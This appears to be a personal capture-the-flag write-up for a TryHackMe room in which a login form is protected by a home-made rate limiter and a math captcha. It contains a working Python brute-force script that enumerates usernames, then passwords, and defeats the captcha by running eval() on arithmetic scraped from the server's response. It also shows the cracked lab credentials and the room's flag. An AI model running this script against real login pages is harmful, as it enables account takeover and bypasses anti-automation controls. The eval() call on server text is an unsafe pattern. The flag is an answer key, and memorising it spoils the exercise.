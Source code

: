 ----
Can you bypass the login form?
----

![222](https://tryhackme-images.s3.amazonaws.com/room-icons/4b631e191c14bc9d6b2be078d1adde76.png)
### Task 1  General information

 Download Task Files

![Securesolacoders](https://tryhackme-images.s3.amazonaws.com/user-uploads/5e3943bd2445e65e56afb7a5/room-content/b5a647b9469643ad859ac93c27dd8e3d.png)

SecureSolaCoders has once again developed a web application. They were tired of hackers enumerating and exploiting their previous login form. They thought a Web Application Firewall (WAF) was too overkill and unnecessary, so they developed their own rate limiter and modified the code slightly**.**

Before we start, download the required files by pressing the **Download Task Files** button.

Answer the questions below

I have downloaded the capture.zip file.

 Completed

### Task 2  Bypass the login form

 Start Machine

Please wait approximately 3-5 minutes for the application to start.  

You can find the web application at: **`http://MACHINE_IP`**

Answer the questions below

What is the value of flag.txt?

```
┌──(witty㉿kali)-[~/Downloads/capture]
└─$ unzip capture.zip 
Archive:  capture.zip
  inflating: passwords.txt           
  inflating: usernames.txt 

http://10.10.205.246/login

test:test

Error: The user 'test' does not exist 

using burp intruder (pitchfork) There's a captcha

┌──(witty㉿kali)-[~/Downloads/capture]
└─$ cat login.py  

┌──(witty㉿kali)-[~/Downloads/capture]
└─$ cat login2.py 
import requests, re

url = "http://10.10.205.246/login"

with open("usernames.txt", "rt") as fd:
	usernames = fd.read().splitlines()
	
with open("passwords.txt", "rt") as fd:
	passwords = fd.read().splitlines()
regex = re.compile(r"(\d+\s[+*/-]\s\d+)\s\=\s\?")
def send_post(username, password, captcha=None):
	data = {
		"username":username,
		"password":password,
	}
	if captcha:
		data.update({"captcha":captcha})
	response = requests.post(url=url, data=data)
	return response
def solve_captcha(response):
    captcha = re.findall(regex, response.text)[0]
    return eval(captcha)
for count in range(100):
	response = send_post("witty", "life")
	try:
		captcha = solve_captcha(response)
		print(f"Captcha synchronised! Next solution is: {captcha}")
		break
	except:
		pass
for username in usernames:
	response = send_post(username, "None", captcha)
	captcha = solve_captcha(response)
	if not "does not exist" in response.text:
		for password in passwords:
			response = send_post(username, password, captcha)
			if not "Error" in response.text:
				print(f"Success! Username:{username} Password:{password}")
				exit(0)
			else:
				captcha = solve_captcha(response)

┌──(witty㉿kali)-[~/Downloads/capture]
└─$ python3 login.py
Captcha synchronised! Next solution is: 191
Success! Username:natalie Password:sk8board

Flag.txt:
7df2eabce36f02ca8ed7f237f77ea416

```

![[Pasted image 20230621185435.png]]

Look at the error messages from the application when attempting to log in. Enumerate to discover the username (firstname). Then enumerate once more to discover the password.

*7df2eabce36f02ca8ed7f237f77ea416*
 

[[Valley]]
